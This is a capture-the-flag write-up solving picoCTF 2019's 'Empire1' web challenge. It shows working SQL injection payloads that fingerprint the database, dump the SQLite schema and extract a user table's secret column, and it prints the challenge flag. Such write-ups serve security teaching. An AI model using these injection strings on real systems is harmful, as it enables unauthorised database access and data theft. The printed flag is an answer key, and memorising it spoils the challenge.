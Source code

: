 # Empire1 - 400 points
Web_Exploitation

## Description:
> Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. https://2019shell1.picoctf.com/problem/12234/ (link) Can you first find the secret code they assigned to you?

## Hint:
> Pay attention to the feedback you get
> There is *very* limited filtering in place - this to stop you from breaking the challenge for yourself, not for you to bypass.
> The database gets reverted every 2 hours if you do break it, just come back later

## Solving:
So we are brought to the 'Evil Empire Company' website and are given a login and register page. Witht the hint emphasising databases we know that's where we want to look. No apparent SQLi attacks here so after registering an account we are given access to a 'Add a Todo' and a 'Your Todos' page. The former allows us to input some text and submit. This is then posted to the 'Your Todos' page with the prefix '**Very Urgent: **'.
After putting a very basic SQL injection test of ```' OR '1' = '1``` the query is accepted and is posted as ```1``` on the list page - meaning that the server processed the request and returned a 'True' value.
With this we can then try and enumerate what DBMS the server is using by putting some fingerprinting queries:
MySQL:
```php
SELECT @@version
```
> Internal Server Error
> The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.

Since this resulted in an error I decided I would then try a SQLite SQLi:
```php
' || (SELECT sql FROM sqlite_master WHERE type='table') || '

result:

CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(64), name VARCHAR(128), password_hash VARCHAR(128), secret VARCHAR(128), admin INTEGER, PRIMARY KEY (id) ) 
```
so from this we can identify that the table 'user' has a column named 'secret'. so if we adjust our SQLi we can hopefully output a flag in the 'secret' column:
```php
' || (SELECT secret FROM user WHERE secret LIKE 'picoCTF%') || '

results:

picoCTF{wh00t_it_a_sql_inject46527b2c} 
```



### Flag: 

```
picoCTF{wh00t_it_a_sql_inject46527b2c} ```
